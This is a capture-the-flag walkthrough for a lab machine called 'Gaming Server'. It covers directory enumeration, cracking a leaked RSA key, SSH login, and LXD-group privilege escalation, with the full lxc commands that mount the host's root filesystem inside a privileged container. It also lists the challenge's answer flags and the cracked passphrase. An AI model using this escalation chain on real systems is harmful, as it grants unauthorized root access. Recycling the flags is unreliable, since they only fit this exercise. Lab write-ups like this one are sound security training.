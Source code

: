 ### Gaming Server

export IP=10.10.3.50

Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.


What is the user flag?
- a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

What is the root flag?
- 2e337b8c9f3aff0c2b3e8d4e6a7c88fc


nmap scan:

![](../../img/Pasted%20image%2020220828012352.png)

Per checking, we only have 2 ports, ssh and http

Visiting the webpage, we are greeted on the homepage:

![](../../img/Pasted%20image%2020220828012437.png)

Performing gobuster scan reveals that there are secret pages inside:

![](../../img/Pasted%20image%2020220828013219.png)

dict.list

![](../../img/Pasted%20image%2020220828012737.png)

secretKey

![](../../img/Pasted%20image%2020220828012748.png)

Uploads

![](../../img/Pasted%20image%2020220828012819.png)

manifesto:

![](../../img/Pasted%20image%2020220828012837.png)

So we have the rsa key, we will try to crack the hash using john the ripper:


![](../../img/Pasted%20image%2020220828012926.png)


Now that we have the password, what is the username?

Inspecting the page using F12 reveals a username: john

![](../../img/Pasted%20image%2020220828013014.png)

We can now login using ssh and the id_rsa key. 

Password for id_rsa: letmein

![](../../img/Pasted%20image%2020220828013258.png)


User flag:

![](../../img/Pasted%20image%2020220828013859.png)

#### Privilege Escalation
Upon checking, we cannot perform sudo -l as well as no crontab jobs and writable /etc/shadow, we can perform linenum, like so:

![](../../img/Pasted%20image%2020220828013401.png)

Looking below, linenum has found that we are a member of lxd group:

![](../../img/Pasted%20image%2020220828013505.png)


This is where i got stuck, since i have no idea about this technology. Searching for answers, this is the blogpost i found:

https://www.hackingarticles.in/lxd-privilege-escalation/


Steps:

1. git clone https://github.com/saghul/lxd-alpine-builder.git
2. build the package using sudo ./build-alpine. A tar.gz file will be provided after
3. Transfer the tar.gz file to the remote machine. But before that, mkdir /tmp on the victim's machine.
4. Once transferred, perform the ff:

```

lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

lxc init myimage ignite -c security.privileged=true

lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

lxc start ignite

lxc exec ignite /bin/sh

```

Once done, go to /mnt/root and capture the flag!

![](../../img/Pasted%20image%2020220828013759.png)


END